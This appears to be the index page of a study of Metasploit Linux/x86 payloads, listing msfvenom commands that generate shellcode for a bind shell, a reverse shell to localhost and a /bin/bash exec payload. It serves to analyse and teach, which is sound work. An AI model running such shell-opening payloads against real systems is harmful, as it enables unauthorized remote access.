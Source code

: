 # MSF Payloads Analysis

<p style="text-align: justify;">I decided to divide the analysis into three parts due to the extensive descriptions and explanations.</p>

- [Linux/x86 TCP Bind Shell](Bind-Shell)
```sh
$ msfvenom -p linux/x86/shell_bind_tcp LPORT=1234 -f c
```
- [Linux/x86 TCP Reverse Shell](Reverse-Shell)
```sh
$ msfvenom -p linux/x86/shell_reverse_tcp LPORT=1234 LHOST=127.0.0.1 -f c
```
- [Linux/86 Exec](Exec)
```sh
$ msfvenom -p linux/x86/exec CMD=/bin/bash -f c
```
